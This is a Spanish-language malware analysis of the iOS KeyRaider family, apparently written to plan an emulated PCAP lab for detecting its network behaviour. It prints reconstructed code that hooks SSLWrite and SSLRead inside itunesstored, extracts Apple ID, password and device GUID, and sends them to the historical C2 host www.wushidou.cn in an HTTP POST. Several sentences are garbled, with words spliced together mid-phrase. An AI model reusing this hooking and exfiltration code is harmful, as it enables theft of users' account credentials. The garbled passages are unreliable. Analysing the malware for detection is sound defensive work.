

KeyRaider es una familia de malware para **iOS** distribuida mediante repositorios de terceros de **Cydia**. Su instalación dependía, por tanto, de que el dispositivo hubiera sido sometido a *jailbreak* y permitiera cargar extensiones ajenas al modelo de seguridad de Apple. El análisis publicado por [Unit 42](https://unit42.paloaltonetworks.com/keyraider-ios-malware-steals-over-225000-apple-accounts-to-create-free-app-utopia/) diferencia varias capacidades dentro de la familia, entre ellas el robo de credenciales de Apple y el uso posterior de cuentas sustraídas para adquirir aplicaciones (aunque no termina de aclarar correctamente de donde procede dicha funcionalidad).

Este documento se limita al primer comportamiento. La variante analizada intercepta las funciones `SSLWrite` y `SSLRead` dentro de `itunesstored`, el proceso encargado de comunicarse con la App Store, para acceder a los búferes en claro entregados a la primera función y devueltos por la segunda. [MITRE ATT&CK asocia este procedimiento con T1638, *Adversary-in-the-Middle*](https://attack.mitre.org/software/S0288/). El enganche es una operación local y no puede demostrarse a nivel de red. En cambio, sí son observables la autenticación legítima con Apple que proporciona las credenciales y la conexión HTTP posterior que las exfiltra hacia el C2. Esta segunda conversación permite aplicar una estrategia basada en la creación de una conexión de red adicional (`Network Connection Creation`, DC0082).

Los artefactos sobre los cuales se ha desarrollado ingeniería inversa son los siguientes:

| Artefacto | Tipo | Identificación o función | SHA-256 |
|---|---|---|---|
| `9catbbs.MPPlugin_1.3.deb` | Paquete Debian para Cydia | Paquete `9catbbs.MPPlugin`, versión 1.3 | `f09dfe8060648e2cf824c6e6e1f643eefb896dd42e8aacf41506ed03f0a53fcc` |
| `letvCert.dylib` | Biblioteca Mach-O | Componente analizado con Ghidra | `57bdaaae7ac086d5020923c42d6a094f61d8dc5ee770e113b3776de5cdcc7aab` |
| `letvCert.plist` | Lista de propiedades | Filtro de carga en `SpringBoard` e `itunesstored` | `050dbc5d597c02266c311a401e6cd195901a898116f765da315406001138fbb8` |

El paquete `9catbbs.MPPlugin_1.3.deb` contiene dos bibliotecas dinámicas. `MPPlugin.plist` carga `MPPlugin.dylib` en varias aplicaciones, mientras que `letvCert.plist` carga `letvCert.dylib` en `SpringBoard` e `itunesstored`. Esta segunda biblioteca contiene la ruta de interceptación y exfiltraca desarrollar en el documentoción. El fragmento de `letvCert.plist` confirma precisamente los dos procesos en los que se inyecta la biblioteca:

```xml
<key>Filter</key>
<dict>
    <key>Executables</key>
    <array>
        <string>SpringBoard</string>
        <string>itunesstored</string>
    </array>
</dict>
```

### Uso de hooks

El inicializador `_logosLocalInit()`, situado en `0x000080dc`, llama a `cert()`. Esta función, localizada en `0x00009490`, obtiene el nombre del proceso actual y selecciona una de dos acciones: si se ejecuta dentro de `SpringBoard`, termina `itunesstored`; si se ejecuta dentro de `itunesstored`, instala los hooks de lectura y escritura TLS. Las direcciones corresponden a la sección ARM64 de `letvCert.dylib` analizada con Ghidra.

Para facilitar la lectura, los extractos de Ghidra se reducen a las operaciones relevantes y normalizan nombres de variables y tipos recuperados. Se conservan las constantes, las condiciones, el orden de las llamadas y la dirección de los datos; no deben interpretarse como código fuente original, pero si como una interpretación de este. La necesidad de normalizar viene dada por el hecho de que el pseudocódigo generado en Ghidra no es orientado a objetos y ni siquiera precisa correctamente funciones y argumentos.

```cpp
void cert(void)
{
    getProcessName();

    if (process_name.find("SpringBoard") != std::string::npos) {
        system("killall -9 itunesstored");
    }
    else if (process_name.find("itunesstored") != std::string::npos) {
        // Resolución e instalación de los hooks SSLWrite y SSLRead.
    }
}
```

La separación entre ambos procesos coincide con el filtro de `letvCert.plist`. Cuando la biblioteca se carga en `SpringBoard`, aprovecha la persistencia de este proceso para forzar el cierre de `itunesstored`. iOS vuelve a iniciarlo cuando necesita acceder a la App Store y MobileSubstrate carga entonces `letvCert.dylib` dentro del nuevo proceso. En esa segunda ejecución, `getProcessName()` devuelve `itunesstored` y se alcanza la rama que instala los hooks.

La función `getAdress()` abre el marco `Security.framework` mediante `dlopen()` y resuelve los símbolos `SSLWrite` y `SSLRead` con `dlsym()`. Si obtiene una dirección válida, `MSHookFunction()` sustituye cada función y conserva un puntero hacia la implementación original:

```cpp
ssl_write_addr = getAdress(
    "/System/Library/Frameworks/Security.framework/Security",
    "SSLWrite"
);
if (ssl_write_addr != 0) {
    MSHookFunction(
        ssl_write_addr,
        replace_SSLWriteCert,
        &original_SSLWriteCert
    );
}

ssl_read_addr = getAdress(
    "/System/Library/Frameworks/Security.framework/Security",
    "SSLRead"
);
if (ssl_read_addr != 0) {
    MSHookFunction(
        ssl_read_addr,
        replace_SSLReadCert,
        &original_SSLReadCert
    );
}
```

Los tres argumentos de cada llamada identifican la función que se intercepta, su reemplazo y la ubicación donde debe guardarse el puntero original. De esta forma, el malware puede observar los datos sin impedir que `itunesstored` continúe su comunicación normal con Apple.

La función `replace_SSLWriteCert` llama primero a `SSLWrite` y conserva su resultado. Después examina el búfer en claro que recibió la función. No procesa cualquier escritura TLS: exige que el contenido comience por una lista de propiedades (`plist`) en XML e incluya al principio la clave `appleId` o `accountKit`. Es decir, el enganche filtra cuando actuar.

```cpp
result = original_SSLWriteCert(context, data, length, processed);

if (*processed != 0 &&
    (starts_with(data, plist_apple_id_prefix) ||
     starts_with(data, plist_account_kind_prefix))) {
    name = findRegex(data,
        "<key>appleId</key>\n\t<string>(*)</string>");
    password = findRegex(data,
        "<key>password</key>\n\t<string>(*)</string>");
    guid = findRegex(data,
        "<key>guid</key>\n\t<string>(*)</string>");

    g_name = name;
    g_pass = password;
    g_guid = guid;
    g_fd = context;
    g_bingowrite = true;
}
```

Las expresiones extraen el Apple ID, la contraseña y el GUID del dispositivo y los conservan en variables globales. La variable `g_fd` guarda además el `SSLContext` de la escritura. Esta asociación es necesaria porque la respuesta de Apple puede coexistir con otras sesiones TLS del proceso: el hook de lectura solo continuará cuando reciba datos sobre el mismo contexto.

### Exfiltración al C&C

La captura de las credenciales no provoca inmediatamente la exfiltración. La función `replace_SSLReadCert()`, situada en `0x00008ed4`, espera la respuesta correspondiente de Apple y comprueba tres condiciones iniciales: la lectura debe contener datos, `replace_SSLWriteCert()` debe haber reconocido antes una autenticación y el `SSLContext` debe coincidir con el almacenado en `g_fd`.

En la primera lectura, la función obtiene el código de estado HTTP, extrae `Content-Length` y detecta si el cuerpo utiliza `Content-Encoding: gzip`. Las lecturas posteriores se acumulan hasta alcanzar la longitud anunciada. Después de descomprimir el cuerpo cuando sea necesario, busca el siguiente campo:

```xml
<key>dsPersonId</key><string>(*)</string>
```

Solo una respuesta `HTTP 200` con longitud válida y un `dsPersonId` no vacío conduce a `sendAid()`:

```cpp
if (response_complete) {
    if (g_zip) {
        g_data = [g_data gunzippedData];
    }

    person_id = findRegex(
        response_body,
        "dsPersonId</key><string>(*)</string>"
    );

    if (!person_id.empty()) {
        g_bingowrite = false;
        sendAid();
    }
}
```

Por tanto, la relación causal no se limita a que aparezcan dos conexiones cercanas en el tiempo, sino que existe una dependencia a nivel de código. La petición de autenticación proporciona las credenciales, la respuesta positiva de Apple confirma la sesión mediante `dsPersonId` y, únicamente entonces, el malware abre el canal de exfiltración.

La función `sendAid()`, localizada en `0x00008494`, convierte `g_name` en un `NSString`, aplica codificación porcentual y vuelve a obtener un `std::string`. La contraseña y el GUID no pasan por esa transformación. El cuerpo se construye concatenando cuatro campos:

```cpp
body = "id="     + encoded_name
     + "&name="  + encoded_name
     + "&pass="  + g_pass
     + "&guid="  + g_guid;
```

Los parámetros `id` y `name` contienen el mismo Apple ID codificado. En esta variante concreta, `pass` y `guid` se incorporan sin cifrado ni codificación porcentual adicional. Esta conclusión procedente de la muestra analizada prevalece sobre descripciones generales de otras variantes de KeyRaider que empleaban AES para el canal de exfiltración.

La función compone después una petición HTTP/1.1. El literal `(length)` se sustituye por la longitud decimal del cuerpo antes del envío:

```cpp
request =
    "POST /aid.php HTTP/1.1\r\n"
    "Host: www.wushidou.cn\r\n"
    "Content-Type: application/x-www-form-urlencoded\r\n"
    "Content-Length: (length)\r\n"
    "\r\n";

replaceRegexInt(request, "(length)", body.length());
request.append(body);
```

`Http::init()`, situada en `0x00003cdc`, determina el transporte efectivo. La función resuelve el nombre mediante `gethostbyname()`, crea un socket `AF_INET/SOCK_STREAM` y fija los dos bytes del puerto a `0x00 0x50`, es decir, TCP/80 en orden de red. No configura TLS para este canal y como ya se dijo anteriormente, no usa cifrado en absoluto.

```cpp
host = gethostbyname(domain);
socket_fd = socket(AF_INET, SOCK_STREAM, 0);

address.sin_family = AF_INET;
address.sin_port = htons(80);
address.sin_addr = host->h_addr_list[0];

connect(socket_fd, &address, sizeof(address));
```

La llamada a `gethostbyname()` obliga a resolver `www.wushidou.cn`, por lo que se dará un flujo de resolución del dominio previo. En una captura de Wireshark, la estructura del paquete HTTP sería:

```http
POST /aid.php HTTP/1.1
Host: www.wushidou.cn
Content-Type: application/x-www-form-urlencoded
Content-Length: <LONGITUD_DECIMAL_DEL_CUERPO>

id=<APPLE_ID_CODIFICADO>&name=<APPLE_ID_CODIFICADO>&pass=<CONTRASEÑA>&guid=<GUID>
```

`Http::send()`, situada en `0x00004750`, descompone y normaliza el cuerpo cuando el estado es `200`; para otros estados conserva la respuesta sin procesarla de la misma forma. Puede delimitar el cuerpo mediante `Content-Length` o reconstruir `Transfer-Encoding: chunked`; si encuentra `Content-Encoding: gzip`, lo descomprime mediante `gunzippedData`. La función `sendAid()` no utiliza el contenido devuelto para iniciar otra operación, de modo que la respuesta del C2 cierra el flujo seleccionado. No existe un canal periódico de *beaconing* ni un catálogo de órdenes: esta ruta abre una comunicación puntual después de completar la autenticación con Apple. Por lo tanto, este malware solo contiene un canal de exfiltración y no hace uso de un canal C&C (lo cual es la norma).

### Secuencia comunicativa


El análisis de Unit 42 documenta que otro componente del ecosistema KeyRaider utilizaba `p*-buy.itunes.apple.com/WebObjects/MZFinance.woa/wa/authenticate` para iniciar sesión con cuentas remotas. Además, un [registro de conexiones de iTunes de abril de 2015](https://discussions.apple.com/thread/6989577) menciona `p12-buy.itunes.apple.com`. A partir de ambas referencias, el laboratorio selecciona la variante `p12-buy` y la ruta de autenticación anterior. TLS 1.2 también es una decisión del escenario reproducible: el hook trabaja por encima del registro TLS y no fija por sí mismo la versión negocia, lo cual en un entorno realista dependería de la versión del sistema operativoda.

La conversación previa que se pretende representar es:

```text
Consulta DNS: p12-buy.itunes.apple.com
Transporte:   TCP/443
TLS:          TLS 1.2, seleccionado para el laboratorio
SNI:          p12-buy.itunes.apple.com

Contenido HTTP dentro de TLS:
POST /WebObjects/MZFinance.woa/wa/authenticate HTTP/1.1
Host: p12-buy.itunes.apple.com
<cabeceras generadas por itunesstored>

<plist con appleId, password y guid>
```

El diagramde paso de mensajes a resumal completo lo obtenido gracias al análisis de la muestrat`.



### Laboratorio de generación del PCAP

El laboratorio no ejecuta la biblioteca original en un dispositivo iOS. Tanto el cliente que representa al teléfono como los servicios de Apple y del C2 se emulan mediante Python. La realidad es que el malware es extremadamente antiguo. Por el contexto histórico de la muestra, conviene suponer que funciona en versiones iOS 7.0. Montar un laboratorio funcional en un dispositivo de más de 10 años de antiguedad puede llegar a ser tedioso. Además, el protocolo de exfiltración es bastante sencillo de emular y queda bastante claro a partir del análisis estático.


Los artefactos de red useleccionados son:

| Entidad | Dirección y servicio | Procedencia |
|---|---|---|
| Víctima emulada | `10.28.8.10` | Dirección privada asignada exclusivamente a la entidad víctima dentro de la topología aislada. |
| Resolutor DNS | `8.8.8.8:53` | Dirección publicada para Google Public DNS; el servicio se emula dentro del *namespace* y no se contacta con Google. |
| Servicio Apple | `17.8.136.178:443` | Respuesta A de `p12-buy.itunes.apple.com` obtenida el 20 de agosto  de manera experimentalde 2026. Es un extremo legítimo y no un IOC de KeyRaider. |
| C2 de KeyRaider | `113.10.174.167:80` | IOC histórico: [Unit 42](https://unit42.paloaltonetworks.com/keyraider-ios-malware-steals-over-225000-apple-accounts-to-create-free-app-utopia/) documentó que `www.wushidou.cn` y `top100.gotoip4.com` resolvían hacia esta dirección durante su análisis TLS.
